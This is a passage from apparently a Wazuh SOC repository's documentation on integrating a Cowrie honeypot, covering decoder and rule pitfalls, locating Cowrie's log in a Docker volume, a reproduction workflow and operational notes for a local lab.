### 10.2 OS_Match Backslash Pitfall

Problem:

The `<match>` engine is pattern matching, not full regex. Writing `cowrie\.` searches for a literal backslash.

Fix:

Use:

```xml
<match>"eventid":"cowrie.</match>
```

not:

```xml
<match>"eventid":"cowrie\.</match>
```

### 10.3 JSON Field Destruction with `<parent>json</parent>`

Problem:

Child decoders inheriting from `json` can wipe out JSON dynamic fields for the event, preventing `data.*` aggregations in OpenSearch.

Fix:

Remove those child decoders and rely on the built-in JSON decoder plus `<decoded_as>json</decoded_as>` in rules.

### 10.4 Docker Volume Log Path

Problem:

Cowrie writes the active `cowrie.json` to an anonymous Docker volume, not to the bind-mounted directory that may appear empty on the host.

Fix:

Use `docker inspect` and `find` to locate the real file path inside `/var/lib/docker/volumes/`, then create a stable symlink at `/var/log/cowrie.json`.

---

## 11. Reproduction Workflow

1. Locate the real `cowrie.json` file inside Docker storage.
2. Create `/var/log/cowrie.json` as a symlink.
3. Add the Cowrie `<localfile>` block to `ossec.conf`.
4. Remove any problematic `<parent>json</parent>` child decoders.
5. Create `/var/ossec/etc/rules/cowrie_rules.xml`.
6. Validate with `wazuh-analysisd -t` and restart the manager.
7. Run `wazuh-logtest` with representative JSON events.
8. Generate real SSH/Telnet activity against Cowrie on port `55222`.
9. Optionally generate a synthetic dataset for dashboard validation.
10. Verify structured `data.*` fields in `alerts.json` and OpenSearch.
11. Build the ten-panel dashboard and capture screenshots.

---

## 12. Operational Notes

- The Docker bridge IP appearing in Cowrie alerts is normal in a local lab.
- Alerts generated before the JSON field fix may not contain structured `data.*` fields.
- Port `55222` (SSH) and `55223` (Telnet) are used because the host public port 22 is allocated to MITRE Caldera.
- The synthetic dataset approach allows reproducible dashboard validation without depending on external attacker traffic. Use the `data.dataset` field to filter synthetic events from organic traffic.
- Keep all publication text in English for consistency with the rest of the repository.

---

*Cowrie Honeypot integration — v2.0 — Validated 2026-06-12 — Wazuh SOC Enterprise repository.*
